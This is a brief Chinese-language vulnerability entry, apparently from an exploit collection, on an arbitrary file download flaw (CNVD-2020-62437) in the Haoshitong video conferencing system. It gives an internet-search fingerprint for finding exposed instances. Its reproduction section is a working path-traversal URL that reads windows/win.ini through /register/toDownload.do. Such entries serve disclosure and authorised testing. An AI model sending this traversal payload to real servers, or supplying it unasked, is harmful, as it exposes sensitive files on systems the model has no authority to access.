

# 银澎云计算 好视通视频会议系统 任意文件下载 CNVD-2020-62437

## 漏洞描述

银澎云计算 好视通视频会议系统 存在任意文件下载，攻击者可以通过漏洞获取敏感信息

## 漏洞影响

<a-checkbox checked>银澎云计算 好视通视频会议系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Hanming-Video-Conferencing"</a-checkbox></br>

## 漏洞复现

登录页面如下


漏洞Url为

```plain
https://xxx.xxx.xxx.xxx/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini
```




## 